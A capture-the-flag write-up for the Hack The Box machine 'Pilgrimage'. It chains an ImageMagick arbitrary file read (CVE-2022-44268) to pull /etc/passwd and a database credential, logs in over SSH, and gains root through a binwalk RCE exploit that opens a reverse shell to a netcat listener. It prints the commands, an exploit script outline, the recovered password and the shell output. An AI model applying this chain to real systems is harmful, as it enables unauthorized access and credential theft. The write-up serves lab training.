


# Pilgrimage

## enumeration
I used legion to do initial reconnaissance.



Here we see port 22 and 80 open. Its good to note nginx 1.18.0 is likely the server, so we can use that to look for vulns and directory traversal.

directory traversial with dirbuster using durbusters wordlist produced some folders. Using another wordlist, we find a .git directory as well as .htaccess, .hta and .htpasswd directories.
```bash
http://pilgrimage.htb:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/

Dirs found with a 403 response:

/.git/
/.htaccess/
/.hta/
/.htpasswd/
/assets/
/vendor/
/vendor/jquery/
/vendor/bootstrap/
/vendor/bootstrap/js/
/assets/js/
/tmp/


--------------------------------
Files found during testing:

Files found with a 403 responce:

/.htpasswd.js
/.htaccess.js
/.hta.js

Files found with a 200 responce:

/login.php
/register.php
/vendor/jquery/jquery.min.js
/vendor/bootstrap/js/bootstrap.min.js
/assets/js/popup.js
/assets/js/isotope.min.js
/assets/js/custom.js
/assets/js/tabs.js

Files found with a 302 responce:

/dashboard.php
/logout.php

```
next we download the git repo with git-dumper:



the git repo is the sourcecode for the site hosted on port 80. After some inspection, we conclude that the website loads a user provided image,
uses `magick` to shrink the image, and provides a generated url to download the shrunk image.

```bash
└─$ ./magick -version                           
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)

```

there is an Arbitrary File Read CVE for this version of magic
```bash
# Exploit Title: ImageMagick  7.1.0-49 - Arbitrary File Read
# Google Dork: N/A
# Date: 06/02/2023
# Exploit Author: Cristian 'void' Giustini
# Vendor Homepage: https://imagemagick.org/
# Software Link: https://imagemagick.org/
# Version: <= 7.1.0-49
# Tested on: 7.1.0-49 and 6.9.11-60
# CVE : CVE-2022-44268 (CVE Owner: Metabase Q Team
https://www.metabaseq.com/imagemagick-zero-days/)
# Exploit pre-requirements: Rust


# PoC : https://github.com/voidz0r/CVE-2022-44268
```
the PoC is quite tedious, so i write a script `exploit.py` to automate the process. here is the gist. view `exploit.py` for full detail:
```python
local_file = sys.argv[1] #the file to read on the server
target_url = 'http://pilgrimage.htb/'

#generate the payload and save as exploit.png
gen(local_file, "exploit.png")

'''
upload exploit.png to the server
download_url is the url for the file containing the converted image
and if our exploit worked, the contents of local_file on the server.
'''
download_url = upload_image("exploit.png", target_url)

#download the image
download_image(download_url, "out.png")

#get the file_contents of local_file
file_contents = decode("out.png")

#print the output:
output = f"""
============================
file: {local_file}
----------------------------
{file_contents}
============================
"""
print(output) 
```
now we are able to read any file on the server if we know where it is located and have the correct permissions.
Next I look through the php files in the .get repo for filepaths on the server to read.

this command pulls out text in single or double quotes from all the text in the php files of the .get repo:
```bash
cat .get/*.php | grep -Eo "'.*?'" | grep -Eo '[^'\'']+'

user
user
user
sqlite:/var/db/pilgrimage
assets/images/banner-04.jpg
menu-trigger
" + allImages[i]["url"] + "
user
user
REQUEST_METHOD
] === 
POST
png
,
jpeg
user
sqlite:/var/db/pilgrimage
user
menu-trigger
message
) && urlParams.has(
status
status
) == 
fail
message
" + urlParams.get(
message
) + "
>" + urlParams.get(
message
user
REQUEST_METHOD
] === 
POST
 && $_POST[
username
] && $_POST[
password
username
password
sqlite:/var/db/pilgrimage
user
menu-trigger
message
) && urlParams.has(
status
message
status
) == 
fail
user
user
REQUEST_METHOD
] === 
POST
 && $_POST[
username
] && $_POST[
password
username
password
sqlite:/var/db/pilgrimage
user
menu-trigger
message
) && urlParams.has(
status
message
status
) == 
fail

```
here we find and sqlite database: `sqlite:/var/db/pilgrimage`. using our exploit to read `/var/db/pilgrimage` and converting the hex dump into ascii, we find the user:password pair
`emily:abigchonkyboi123`

using our exploit to read `/etc/passwd`, we also find the user emily
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

lets ssh in as emily and get the first flag
```bash
└─$ ssh emily@pilgrimage.htb        
emily@pilgrimage.htb's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 20 09:30:45 2023 from 10.10.16.2
```

next i run `linpeas.sh` and find root is running a script `malwarescan.sh`.
```bash
root         732  0.0  0.0   6816  3080 ?        Ss   09:26   0:00 /bin/bash /usr/sbin/malwarescan.sh
```

we have read access to `malwarescan.sh` and here are its contents:
```bash
emily@pilgrimage:/dev/shm/qest$ cat /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
 filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
 binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
  if [[ "$binout" == *"$banned"* ]]; then
   /usr/bin/rm "$filename"
   break
  fi
 done
done

```
the script looks for files in `/var/www/pilgrimage.htb/shrunk/` and analyze their contents with `binwalk`. if `binwalk`
determins it to be an Executable script or Microsoft executeble, the file is removed.

```bash
emily@pilgrimage:/dev/shm/qest$ binwalk

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...
```

That version has a CVE for remote code execution. exploitdb has an exploit for it `https://www.exploit-db.com/exploits/51249`

we use the exploit to build our payload png file
```bash
emily@pilgrimage:/dev/shm/qest$ python3 exploit51249.py dummy.png $ADDR $PORT

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

setup a listener on our attacking machine
```bash
┌──(kali㉿kali)-[~/Documents/htb/pilgrimage]
└─$ nc -lvp 1234
listening on [any] 1234 ...
```

and place the generated payload into the `/var/www/pilgrimage.htb/shrunk/` dir
```bash
emily@pilgrimage:/dev/shm/qest$ mv binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```

once the script sees our binary, binwalk reads it and we get a reverse shell:
```bash
┌──(kali㉿kali)-[~/Documents/htb/pilgrimage]
└─$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from pilgrimage.htb [10.129.159.130] 36042
id
uid=0(root) gid=0(root) groups=0(root)
```

